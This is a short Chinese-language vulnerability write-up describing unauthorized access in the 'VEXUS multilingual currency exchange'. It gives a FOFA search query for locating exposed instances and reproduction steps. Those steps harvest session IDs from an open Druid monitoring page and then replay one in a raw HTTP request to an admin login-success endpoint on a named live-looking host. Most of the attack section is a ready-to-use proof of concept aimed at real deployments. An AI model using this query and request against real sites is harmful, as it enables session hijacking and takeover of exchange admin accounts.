 # VEXUS多语言货币交易所存在未授权访问漏洞

# 一、漏洞简介
VEXUS多语言货币交易所存在未授权访问漏洞

# 二、影响版本
+ VEXUS多语言货币交易所

# 三、资产测绘
+ fofa`"image/n2.png" && "public/login.action"`
+ 特征

![1727498799522-822e93ff-50be-42a1-9e0b-111a2f844864.png](./img/cvy4scQ9X281hrqb/1727498799522-822e93ff-50be-42a1-9e0b-111a2f844864-063597.png)

# 四、漏洞复现
```java
/druid/index.html
```

![1727498820102-2db97c04-7594-473e-9e30-dd4678d21aca.png](./img/cvy4scQ9X281hrqb/1727498820102-2db97c04-7594-473e-9e30-dd4678d21aca-036126.png)

获取session后可通过下面poc进行爆破

```java
GET /normal/LoginSuccessAction!view.action?username=admin HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: no-cache
Connection: keep-alive
Cookie: JSESSIONID=可用的SESSION
Host: admin.kftust.com
Pragma: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
```



> 更新: 2024-10-22 09:36:08  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/nkwou5fss984m2t8>
